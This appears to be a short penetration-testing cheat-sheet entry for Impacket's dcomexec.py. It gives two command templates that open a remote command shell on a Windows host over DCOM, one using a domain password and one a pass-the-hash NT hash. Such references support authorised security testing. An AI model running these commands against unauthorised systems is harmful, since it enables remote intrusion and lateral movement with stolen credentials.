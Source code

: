 # dcomexec (imp)

% windows, impacket-exec, dcom

## dcomexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
dcomexec.py '<domain>/<user>:<password>'@<ip>
```

## pth 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
dcomexec.py -hashes <nt_hash> <user>@<ip>
```
